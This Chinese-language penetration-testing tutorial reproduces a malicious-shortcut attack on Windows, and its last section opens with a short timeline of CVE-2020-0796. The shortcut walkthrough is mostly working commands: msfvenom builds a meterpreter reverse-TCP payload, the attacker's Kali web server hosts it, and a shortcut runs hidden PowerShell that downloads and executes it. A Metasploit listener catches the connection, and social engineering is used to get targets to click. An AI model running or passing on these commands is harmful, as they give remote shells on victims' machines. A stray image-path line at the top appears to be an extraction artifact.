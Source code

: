 #### 利用原理

> 创建恶意快捷方式，包含执行脚本，点击快捷方式，导致目标机中招

#### 环境准备

- Windows 7/8.1/10系统或 Windows Server 2008/2012/2016
- Kali

#### 利用复现

1. msf 生成后门程序

   ```shell
   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.xxx.xxx lport=xxxx -f psh-reflection>/var/www/html/link.ps1
   ```

2. 开启 kali 的 http 服务，供外链访问到后门程序

   `service apache2 start`

3. 在 windows 主机上创建一个快捷方式，值如下：

   ```shell
   powershell -windowstyle hidden -exec bypass -c "IEX(New-ObjectNet.WebClient).DownloadString('http://kali-ip/link.ps1');test.ps1"
   ```

4. 打开 msf 终端，配置监听

   `msfconsole`

   `use exploit/multi/handler`

5. 配置 payload

   `set payload windows/x64/meterpreter/reverse_tcp`

   `show options`

   `set lhost 192.168.xxx.xxx`

   `set lport xxxx`

   `run`

6. 利用社会工程学，传播第 3 步中创建的快捷方式，诱导点击执行，获得反弹shell



## CVE-2020-0796 永恒之黑

#### CVE-2020-0796

> 2020 年 3 月 10 日，国外安全厂商发布安全通告添加 CVE-2020-0796 对应 IPS 规则，描述中认为该漏洞可导致无需认证的远程任意代码执行。
>
> 3 月 11 日微软例行更新，但其中并未发布 CVE-2020-0796 的漏洞资料。
>
> 次日（3 月 12 日）晚，微软正式发布 CVE-2020-0796 高危漏洞补丁。
